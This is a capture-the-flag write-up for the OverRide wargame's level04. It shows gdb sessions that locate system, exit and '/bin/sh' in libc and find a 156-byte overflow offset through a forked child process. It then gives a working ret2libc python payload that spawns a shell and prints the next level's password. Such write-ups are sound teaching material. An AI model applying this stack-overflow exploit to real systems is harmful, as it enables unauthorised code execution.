




# level04



```sh
level04@OverRide:~$ ./level04
Give me some shellcode, k
Koby
child is exiting...
level04@OverRide:~$ ./level04 Sengoku
Give me some shellcode, k
Tsuru
child is exiting...
level04@OverRide:~$
```



The `main` function is as follows:
- A `fork` is made, the parent `process` waits for the `child` to finish.
- The `child process` is traced and is asked for shellcode `Give me some shellcode, k` and open the standard input by calling the function `gets`.

## WE HAVE ALL INGREDIENTS TO FINISH THIS LEVEL FAST

# <u>Vulnerability</u> : Stacked-Based Buffer Overflow Attack : `Ret2libc`

Yes, we can use a `shellcode` like the program asks us to do, but first we can try a buffer overflow.

> Again, there is 3 unused function, but here we simply ignore them.

## 1. The combo `system + exit + /bin/sh`

```sh
(gdb) b main
Breakpoint 1 at 0x80486cd
(gdb) r
Starting program: /home/users/level04/level04

Breakpoint 1, 0x080486cd in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) info proc map
process 1704
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
	 0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
	 0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
	0xf7e2b000 0xf7e2c000     0x1000        0x0
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0
	0xf7fda000 0xf7fdb000     0x1000        0x0
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
(gdb)
```

- `system` : `0xf7e6aed0` (`\xd0\xae\xe6\xf7`)
- `exit` : `0xf7e5eb70` (`\x70\xeb\xe5\xf7`)
- `/bin/sh` : `0xf7f897ec` (`\xec\x97\xf8\xf7`)

## 2. Finding the offset

```sh
(gdb) r
Starting program: /home/users/level04/level04
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
[...]
[...]
[...]
[nothing...]
^C
Program received signal SIGINT, Interrupt.
0xf7fdb435 in __kernel_vsyscall ()
(gdb) 
```

## _Why the program is not crashing ?_

The program does not crash despite the buffer overflow because the parent process is monitoring and controlling the execution of the child process using `ptrace()`. Here are some possible reasons:

1. **Monitoring with `ptrace()`**:
   - The parent process uses `ptrace()` to monitor the execution of the child process. If the child process attempts to execute an `exec()`, the parent process detects this and kills the child process.
   - This prevents the child process from crashing the program by executing malicious code.

2. **Infinite loop in the parent process**:
   - The parent process enters an infinite `do...while` loop that waits for the child process to terminate. If the child process does not terminate normally, the program continues to wait and check the state of the child process.
   - This can give the impression that the program is in an infinite loop, but in reality, it is simply waiting for the child process to terminate, and the reality is the child process is **crashing**.

## _So, what we can do ?_

We follow the `parent process`, and we NEED to follow the `child process` to exploit the buffer overflow.

And `gdb` has a command to do that, **`set follow-fork-mode <mode>`** :



We can use the `set follow-fork-mode child` to follow the `child process` and see what happend in the `child process`, where is the `gets` function in called.

```sh
(gdb) set follow-fork-mode child
(gdb) r
Starting program: /home/users/level04/level04
[New process 1718]
Give me some shellcode, k
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 1718]
0x41326641 in ?? ()
(gdb)
```

## _AHHHHHH, the program crashes! Well, no... The program running in the child process launched by the `fork` function is crashing._

Now, we can obtain the offset : it's `156 bytes`.

## 3. The payload

The classico monster trio for `Ret2libc` :



```sh
level04@OverRide:~$ (python -c 'print "A" * 156 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"'; cat) | ./level04
Give me some shellcode, k
whoami
level05

```


```sh
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

And go to the next level :

```sh
level04@OverRide:~$ su level05
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
level05@OverRide:~$
```

# level04 complet !


